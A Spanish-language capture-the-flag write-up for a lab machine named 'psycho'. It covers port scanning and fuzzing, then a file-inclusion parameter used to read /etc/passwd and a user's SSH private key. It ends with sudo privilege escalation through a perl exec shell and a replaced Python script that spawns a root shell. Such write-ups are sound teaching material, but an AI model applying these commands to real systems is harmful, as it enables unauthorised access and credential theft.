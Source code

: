 # Máquina psycho

---

Dificultad -> Fácil

---

Primero, realizamos un escaneo con nmap para ver puertos y servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
--------------------------------------------------------------
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: 4You
```

Vemos que hay un ssh y un apache asi que accedemos desde el navegador

![](assets/2025-10-25-16-03-32-image.png)

Podemos ver una simple pagina web, pero si miramos abajo del todo en el codigo fuente se puede ver un error que puede que nos sirva en un futuro

![](assets/2025-10-25-16-04-24-image.png)

Como no veo nada más, procedo a hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
---------------------------------------------------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 2596]
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
/server-status        (Status: 403) [Size: 275]
```

Encuentro index.php que es la pagina que hemos visto anteriormete y  /assets donde se encuentra una imagen que podemos descargar

![](assets/2025-10-25-16-06-52-image.png)

Descargo la imagen y pruebo a buscar texto oculto en los metadatos y con steganografía pero no encuentro nada.

Volviendo al error de antes, posiblemente falte un argumento en el index.php

asi que busco posibles argumentos con ffuf

```shell
ffuf -u http://172.17.0.2/index.php?FUZZ=id -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 674 -t 64
```

ffuf encuentra el parámetro secret asi que pruebo a ejecutar comandos con index.php?secret=id pero solo desaparece error, pruebo a poner index.php?secret=/etc/passwd y consigo ver el contenido del passwd

![](assets/2025-10-25-17-28-30-image.png) 

podemos ver que hay 2 usuarios; vaxei y luisillo, pruebo ha hacer bruteforce con hydra pero no consigo nada asi que pruebo a ver la clave id_rsa de los usuarios con /home/usuario/.ssh/id_rsa y encuentro la clave de vaxei

![](assets/2025-10-25-17-35-06-image.png)

Guardo la clave  en mi maquina y me conecto por ssh con la clave 

```shell
ssh -i sshkey vaxei@172.17.0.2
```

Una vez dentro como el usuario vaxei, buscamos binarios con sudo -l y encontramos que podemos ejecutar el binario perl como el usuario luisillo

![](assets/2025-10-25-17-39-00-image.png)

Buscamos el binario en [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos convertimos en el usuario luisillo con

```shell
sudo -u luisillo perl -e 'exec "/bin/sh";'
```

Volvemos a buscar binarios y encontramos que podemos ejecutar un script de python como root

![](assets/2025-10-25-17-42-19-image.png)

Nos dirijimos al script y vemos que no hace nada que nos pueda dar permisos.

No nos deja modificar el script pero si nos deja eliminarlo asi que lo eliminamos y creamos otro con el mismo nombre con el siguiente contenido para que nos abra una shell como root

```shell
import os; os.system("/bin/sh")
```

Finalemente, ejecutamos el script con sudo y conseguimos ser root

![](assets/2025-10-25-17-48-29-image.png)



